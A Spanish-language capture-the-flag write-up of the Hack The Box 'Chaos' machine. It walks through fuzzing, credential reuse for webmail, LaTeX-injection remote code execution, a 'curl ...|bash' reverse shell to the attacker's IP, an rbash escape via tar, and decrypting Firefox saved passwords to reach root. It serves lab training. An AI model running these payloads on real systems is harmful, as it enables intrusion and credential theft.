# Chaos



Whatweb
http://10.129.34.203 [200 OK] Apache[2.4.34], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.34 (Ubuntu)], IP[10.129.34.203]

- 80
- En principio parece que no podemos acceder



Buscando info veo que puede ser porque un firewall o proxy está bloqueando las peticiones por usar una dirección IP en lugar de un nombre de dominio -> probamos a meter chaos.htb en el */etc/hosts*
- Ahora si obtenemos contenido



- En http://chaos.htb/hof.html vemos muchos nombres de usuarios en
- En http://chaos.htb/blog.html hay un blog en desarrollo, no encontramos nada
- En http://chaos.htb/contact.html no hay mucha info, solo un mapa que no carga y un formualrio de envío de mensaje

- Escaneamos subdominios
```bash
gobuster vhost -u http://chaos.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 200 -r
```

**webmail.chaos.htb**

- Encontramos un roundcube en *webmail.chaos.htb*



Intentamos loguearnos con algún usuario pero en principio nos devuelve *login failed* y no nos da ninguna pista sobre usuarios válidos

- Escaneamos directorios
En *webmail.chaos.htb* parece no haber nada
En *chaos.htb*



No hay nada interesante, solo un forbidden en */javascript*

- 10000
Vemos un portal login de *Webmin* en **MiniServ 1.890**





- Nos reporta login failed
- Cuando intentamos varias veces el login nos salta un error de **Error - Access denied for 10.10.16.179. The host has been blocked because of too many authentication failures**
Al siguiente intento nos bloquea la IP

- El archivo de sesrión cuando el login es incorrecto es *session_login.cgi* -> **POSIBLE SHELL SHOCK ATTACK**

- 110 -> open pop3 Dovecot pop3d



- 995 -> open ssl/pop3 Dovecot pop3d

- 143 -> open imap Dovecot imapd



- 993 -> open ssl/imap Dovecot imapd

- No vemos nada a priori, por lo que probamos a fuzzear la IP en lugar del virtual host
```bash
gobuster dir -u http://10.129.34.203 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js,txt
```



Sorpresa, vemos un wordpress
- Seguimos fuzzeando y vemos que el directorio es **/10.129.34.203/wp/wordpress/index.html**

- Intentamos acceder al  recurso pero nos dice que no se reconoce un nuevo subdominio -> *wordpres.chaos.htb*
Lo añadimos al /etc/hosts y vemos un blog que nos pide una contraseña para ver el contenido

-
```bash
wpscan --url http://wordpress.chaos.htb
```

WordPress version 4.9.8

-
```bash
wfuzz -c -t 200 --hc=404 --hh=53511 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://wordpress.chaos.htb/FUZZ/
```



Vemos que existe el panel de login, pero no conseguimos obtener ningún usuario válido a priori

- Vemos el contenido del wp



Si pinchamos en el *Protected:chaos* nos envía al mismo post que nos pide una contraseña pero aparece un usuario **human**


Probamos la contraseña human también y entramos
**human:human**
Vemos unas credenciales para el webmail



**ayush:jiujitsu**

- Podríamos conectarnos desde el portal de webmail o probar la herramienta **claws-mail**
Como **IMAP** y **POP3** son servidores de mail, podríamos intentar conectarnos con la herramienta a la ip de la máquina víctima por los puertos expuestos
```bash
claws-mail
```



Añadimos la info del usuario y del servidor



Ahora la SMTP



Nos carga los mensajes del mail y vemos el mensaje



- Intentamos acceder al roundcube en http://webmail.chaos.htb conestas credenciales
Estamos dentro



- Vemos un coreo de service que aporta un mensaje cifrado *enim_msg.txt* y un *en.py* que se usó para encriptarlo



Nos dice que nosotros (**sahay** es la persona a la que se envía el mensaje) somos la contraseña

- Nos descargamos los dos archivos para lo que parece un reto criptográfico
- El mensaje encriptado es un binario no lejible
- El archivo con el que se encriptó es un script en python



-> Se utiliza cifrado AES en formato CBC

- Lo que voy a hacer es buscar primero en google por el contenido entero del *en.py* a ver si hay suerte y es un recurso de un repo o algo que nos de el *decrypt.py*
- Encuentro un git con muchas coindicencias en negrita del texto que busco, y efectivamente tiene un decrypt
https://github.com/vj0shii/File-Encryption-Script/tree/master



Vemos que el encrypt es exactamente igual

- Ejecutaremos el *decrypt.py*
Nos da error en el módulo Crypto -> tendremos que instalar **pycryptodome**
```bash
python3 -m venv venv
source vevn/bin/activate
pip3 install pycryptodome
python3 decrypt.py
```

Nos reporta un error en *raw_input()* -> busco y parece que es una función de python2 que en python3 es *input()* -> lo cambio

- Ahora sí se ejecuta correctamente y nos pide tanto el nombre del archivo como una contraseña
Probamos como contraseaña *sahay* que es a quien se le envía el correo y se dice que "tú eres la paswd"
Se nos crea una archivo con una cadena un tanto extraña



SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK

- Vemos que es un base64
```bash
echo "SGlpIFNhaGF5CgpQbGVhc2UgY2hlY2sgb3VyIG5ldyBzZXJ2aWNlIHdoaWNoIGNyZWF0ZSBwZGYKCnAucyAtIEFzIHlvdSB0b2xkIG1lIHRvIGVuY3J5cHQgaW1wb3J0YW50IG1zZywgaSBkaWQgOikKCmh0dHA6Ly9jaGFvcy5odGIvSjAwX3cxbGxfZjFOZF9uMDdIMW45X0gzcjMKClRoYW5rcywKQXl1c2gK" | base64 -d
```



Nos leakea un archivo http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

- Vemos un generador de pdf



Le damos a *Create PDF* pero no parece hacer nada

- Interceptaremos la petición con Burp



Nos reporta un error de **pdfTeX Version 3.14159265-2.6-1.40.19**
- Se usa latex por detrás

- Buscaremos algun tipo de inyección en latex o similar
- Payloadallthethings
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection
```bash
\input{/etc/passwd}
```



Nos devuelve un **BLACKLISTED commands used**
- Probaremos otro payload -> No parece funcionar

- Haremos un fuzzeo sobre el directorio nuevo que hemos descubierto
```bash
wfuzz -c -t 200 --hc=404 --hh=2656 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/FUZZ/
```



- Encontrasmos el directorio */pdf*
Vemos que se han creado pdf con las pruebas que hemos hecho aunque en el burp nos devuelva un error

- Vemos que esto pasa porque para la *template=trest1* nos da un error



- Sin embargo para la *template=test2* nos crea el documento



Vemos el resultado del pdf en la ruta



- Probaremos ahora a consciencia los payload con el *template2*
Usaremos este payload pero con un simple "whoami"
```bash
\immediate\write18{id > output}
content=\immediate\write18{whoami}&template=test2
```

Vemos el RCE



www-data

- Nos intentaremos lanzar una revshell
- No funciona con bash -i...
- No funciona con nc -e...
- Probamos con
```bash
curl http://10.10.16.179|bash
```

URLencodeado



www-data

## Escalada

- Vemos credenciales en */var/www/wordpress/wp-config.php*
roundcube:inner[OnCag8

- Vemos los usuarios *ayush* y *sahay*
Intentamos reutilizar credenciales para ayush:jiujitsu
ayush

- Nos encontramos con que hay una **rbash** que nos restringe la mayoría de comandos



Qué es *rbash*



- Hay una vía potencial de inyectar una bash por ssh
```bash
ssh -t ayush@chaos.htg bash
```

Pero la máquina no tiene el puerto 22 abierto por lo que no nos vale

- Si pulsamos *Tab* dos veces, vemos los comandos que nos permite ejecutar la rbash



Vemos **tar** -> que puede spawnear una shell
En GTFOBins podríamos buscar por los comandos y ver si el binario permite spawnear shell o no



```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

IMPORTANTE que sea *bash* y no *sh*

- Ahora tenemos una bash pero no encuentra los comandos porque el $PATH tiene el valor del directorio donde están guardados los comandos permitidos */home/ayush/.app*



Lo que nosotros queremos es tener el $PATH desde los directorios comunes
Busco en google *default path variable linux* y vemos */usr/bin:/bin:/usr/sbin:/sbin:/usr/local/bin*
- Le asignaremos el valor a la variable
```bash
export PATH=/usr/bin:/bin:/usr/sbin:/sbin:/usr/local/bin
```

- Ahora sí podemos ejecutar los comandos de forma correcta

- SUDO -> nada
- SUID -> nada
- CAP -> nada

- Vemos en */home/ayush* un directorio oculto **.mozilla** -> Puede guardar información interesante de sesiones
Vemos una sesión



*bzo7sjt1.default*
- Existen dos archivos potenciales de contener credenciales
logins.json
key4.db

- Nos pasamos los archivos a nuestro kali y usaremos la herramienta *firepwd.py*
```bash
git clone https://github.com/lclevy/firepwd.git
cd firepwd
python3 -m venv venv
source venv/bin/activate
python3 -m pip install -r requirements.txt
cp logins.json key4.db .
```

Los archivos tienen que estar en el mismo dir que la herramienta
```bash
python3 firepwd.py
```



- No vemos nada

- Vamos a probar otra herramienta *firefox-decrypt.*
```bash
git clone https://github.com/unode/firefox_decrypt.git
```

- Tendremos que descargarnos todo el contenido del directorio de sesión de la máquina víctima
```bash
python3 -m http.server
```

-> IMPORTANTE que sea en el 8000, en el 80 no nos deja porque está la web corriendo
```bash
wget -r chaos.htb:8000
```

-> IMPORTANTE traernos todo, no solo el directorio de la sesión, sino también los *Crash Reports* y el *profiles.ini*, de lo contrario no lo leerá y dará error

- Ejecutamos el *firefox-decrypt*
```bash
cd /firefox-decrypt
python3 firefox_decrypt.py ../chaos.htb:8000/
```

Nos pide una contraseña
Probaremos la de *ayush* -> jiujitsu



root:Thiv8wrej~

-
```bash
su root
```

root
